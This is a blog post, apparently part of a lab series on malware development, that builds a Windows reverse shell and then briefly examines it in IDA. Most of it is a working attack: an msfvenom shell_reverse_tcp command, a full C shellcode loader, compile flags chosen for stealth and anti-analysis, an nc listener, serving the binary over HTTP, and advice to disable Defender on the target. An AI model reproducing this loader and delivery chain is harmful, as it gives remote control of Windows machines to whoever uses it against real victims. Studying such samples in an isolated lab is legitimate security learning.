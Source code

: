 ```yaml
---
layout: post
title: 0 MALDEV - Easy Reverse Shell 
category : [Reverse, MALDEV]
tags: reverse
---
```


So for those tests I will use `Malware-Development-for-Ethical-Hackers`, by coding malware I will then test them and reverse them.

For the lab setup, I have a kali, and two windows 10 in a private network so I can develop malware on kali and run/analyze them in windows 10.

# Reverse Shell and msfvenom payload Review

## Reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali ip> LPORT=4444 -f c
```

### Command Breakdown

**`msfvenom`** - The Metasploit Framework's payload generator tool that creates custom shellcode and executables.

**Parameters:**
- **`-p windows/x64/shell_reverse_tcp`** - Specifies the payload type:
  - `windows/x64/` - Target platform (Windows 64-bit)
  - `shell_reverse_tcp` - Payload type (reverse shell over TCP)
- **`LHOST=<kali ip>`** - Local Host (attacker's IP address) - the IP where the reverse shell will connect back to
- **`LPORT=4444`** - Local Port (attacker's listening port) - the port where the reverse shell will connect back to
- **`-f c`** - Output format as C array (hexadecimal bytes that can be embedded in C code)

## Main C code

```c
#include <windows.h>    // Windows API functions for memory allocation and thread creation
#include <stdio.h>      // Standard I/O functions (not used but commonly included)
#include <stdlib.h>     // Standard library functions (not used but commonly included)
#include <string.h>     // String manipulation functions (not used but commonly included)

// Array containing the shellcode generated by msfvenom
unsigned char actual_payload[] = <code generated from msfvenom> ;

// Size of the shellcode array for memory allocation
unsigned int actual_payload_length = sizeof(actual_payload);

int main(void) {
  void * memory_for_payload;   // Pointer to allocated memory for shellcode
  BOOL operation_status;       // Status of VirtualProtect operation
  HANDLE thread_handle;        // Handle to the thread that will execute shellcode
  DWORD previous_protection_level = 0;  // Stores previous memory protection level

  // Allocate executable memory for the shellcode
  // MEM_COMMIT: Commits the memory immediately
  // MEM_RESERVE: Reserves the memory space
  // PAGE_READWRITE: Initially sets memory as readable/writable (not executable)
  memory_for_payload = VirtualAlloc(0, actual_payload_length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy the shellcode from the array to the allocated memory
  RtlMoveMemory(memory_for_payload, actual_payload, actual_payload_length);

  // Change memory protection from READ/WRITE to EXECUTE/READ
  // This is necessary because modern systems prevent execution of writable memory (DEP)
  operation_status = VirtualProtect(memory_for_payload, actual_payload_length, PAGE_EXECUTE_READ, &previous_protection_level);
  if ( operation_status != 0 ) {
    // Create a new thread that executes the shellcode
    // The shellcode (reverse shell) will start running in this thread
    thread_handle = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) memory_for_payload, 0, 0, 0);
    // Wait indefinitely for the thread to complete (reverse shell to finish)
    WaitForSingleObject(thread_handle, -1);
  }
  return 0;
}
```

## Compilation with mingw

```bash
x86_64-w64-mingw32-gcc hack.c -o hack.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

### Command Breakdown

**`x86_64-w64-mingw32-gcc`** - Cross-compiler for Windows 64-bit executables from Linux/Unix systems.

**Parameters:**
- **`hack.c`** - Source file to compile
- **`-o hack.exe`** - Output filename (creates hack1.exe)
- **`-s`** - Strip symbols (removes debug information, function names, and variable names from the executable)
- **`-ffunction-sections`** - Places each function in its own section, enabling better dead code elimination
- **`-fdata-sections`** - Places each data item in its own section, enabling better dead code elimination
- **`-Wno-write-strings`** - Suppresses warnings about writing to string literals (useful for shellcode arrays)
- **`-fno-exceptions`** - Disables exception handling to reduce executable size and complexity
- **`-fmerge-all-constants`** - Merges identical constants to reduce executable size
- **`-static-libstdc++`** - Statically links the C++ standard library (no external dependencies)
- **`-static-libgcc`** - Statically links the GCC runtime library (no external dependencies)

### What this compilation does:
1. **Cross-compilation** - Creates a Windows executable from a Linux system
2. **Size optimization** - Reduces executable size through various optimization flags
3. **Stealth enhancement** - Removes symbols and debug information to make reverse engineering harder
4. **Dependency elimination** - Creates a standalone executable that doesn't require external DLLs
5. **Anti-analysis** - Makes the binary harder to analyze by removing function names and symbols

### Why these flags are important for malware:
- **`-s`** - Removes debugging symbols that could reveal function names and structure
- **`-ffunction-sections` and `-fdata-sections`** - Enables better dead code elimination, reducing file size
- **`-static-libstdc++` and `-static-libgcc`** - Ensures the malware runs on any Windows system without missing dependencies
- **`-fno-exceptions`** - Reduces complexity and size by removing exception handling overhead


## Execution

### Kali

On kali we will simply run netcat in listenning mode to receive the reverse shell :

```bash
nc -nvlp 4444
```
And on the same directory than our executable, we can rune the following command to server an http server :

```bash
python3 -m http.server
```

### Windows 10

On windows we have to disable malware defender, then go through our web browser to `http://<kali ip>:8000` there you can download our malware and then execute it. 

### Result 

On your kali machine you will receive the reverse shell :

![res](/assets/images/maldev/0/reverseexec.png)

# IDA view

Here I started by just looking at the code, function by function but even though it's a small program there is a "lot" of code, so we can go back to the basics and check the `import` subview :

![ida](/assets/images/maldev/0/ida1.png)

We immediately spot some suspicious functions, I'll start by looking at `CreateThread` because there is only two xref (in the same function) and we could get an insight on the payload that could be executed :

![ida](/assets/images/maldev/0/ida2.png)

So we had all the juicy informations in one function, as the payload genereated in msfvenom in clear text :

![ida](/assets/images/maldev/0/ida3.png)

It would be interesting to look at a way to transform back in command the payload.
